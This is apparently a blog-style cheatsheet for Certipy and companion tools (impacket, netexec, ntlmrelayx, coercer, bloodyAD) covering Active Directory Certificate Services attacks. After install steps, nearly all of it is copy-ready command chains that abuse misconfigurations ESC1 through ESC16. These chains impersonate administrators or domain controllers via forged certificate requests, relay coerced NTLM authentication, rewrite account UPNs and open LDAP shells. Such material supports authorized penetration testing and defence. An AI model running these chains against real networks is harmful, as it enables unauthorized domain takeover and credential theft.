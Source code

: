 ```yaml
---
title: Certipy Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [certipy]
---
```

# Certipy - AD CS Attack & Enumeration Toolkit
# Installation
https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

## Using pip

```bash
$ sudo apt update && sudo apt install -y python3 python3-pip
$ python3 -m venv certipy-venv
$ source certipy-venv/bin/activate
$ pip install certipy-ad

```
## Using pipx

```bash
$ pipx install -f "git+https://github.com/ly4k/Certipy.git"
```
## Using uv

```
$ uv tool install git+https://github.com/ly4k/Certipy --force
```
# Enumeration
Search for vulnerable certificate templates

```bash
$ certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
Find PKI Enrollment Services in Active Directory and Certificate Templates Names

```bash
$ nxc ldap target -u username -p password -M adcs
```
Anonymously uses RPC endpoints to hunt for ADCS CAs

```bash
$ nxc smb target -M enum_ca
```

# Attacks
## ESC1

```bash
$ impacket-addcomputer domain/username:password -computer-name computer_name -computer-pass computer_password

$ certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip

Or

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip

    If you run certipy and see Minimum RSA Key Length : 4096, you may need to provide the -key-size 4096 option

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096

$ certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip 

```

## ESC3
```bash 
$ certipy req -u username -p password -ca ca -target domain -template template

$ certipy req username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC4
```bash
$ certipy template -u username@domain -p password -template template -write-default-configuration -no-save

$ certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain

$ certipy auth -pfx administrator.pfx -dc-ip ip

```

## ESC7
```bash
$ certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain

$ certipy ca -ca ca -issue-request request_ID -u username@domain -p password

$ certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID

$ certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
```

## ESC8
```bash
$ ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server

$ coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue

$ certipy auth -pfx administrator.pfx
```

## ESC9
```bash
$ certipy shadow auto -u username@domain -hashes :hash -account target_username

$ certipy account update -u username@domain -hashes :hash -user target_username -upn administrator

$ certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip

$ certipy account update -u username@domain -hashes :hash -user target_username -upn target_username

$ certipy auth -pfx administrator.pfx -domain domain
```

## ESC10
### Enumeration
```powershell
$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name StrongCertificateBindingEnforcement

$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -Name CertificateMappingMethods
```
### Exploitation
Case 2
```bash
$ certipy account -u username@domain -p password -dc-ip ip -target dc -upn dc$@domain -user victim update

$ impacket-getTGT domain/victim:password -dc-ip ip

$ export KRB5CCNAME=victim.ccache

$ certipy req -k -dc-ip ip -target dc -ca ca -template User

$ certipy account -k -dc-ip ip -target dc -upn victim@domain -user victim update

$ certipy auth -pfx dc.pfx -dc-ip ip -ldap-shell


# whoami
u:DOMAIN\DC$

# set_rbcd DC$ Machine_Account$
```

## ESC13
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip

$ certipy auth -pfx file.pfx -dc-ip ip

```

## ESC14
### [ADCS ESC14 Abuse Technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)
```bash
$ bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'

$ bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain

$ certipy account update -u owned_user@domain -p password -user username -upn target

$ certipy req -u username -p password -ca ca -template template -dc-ip ip

$ certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip

$ certipy auth -pfx pfx -dc-ip ip -user target -domain domain
```

## ESC15
### Scenario A
```bash
$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'

$ certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell
```
### Scenario B
```bash
$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'

$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC16

We use a user that has GenericAll or GenericWrite
```bash
$ certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update

$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>

$ certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update

$ certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
```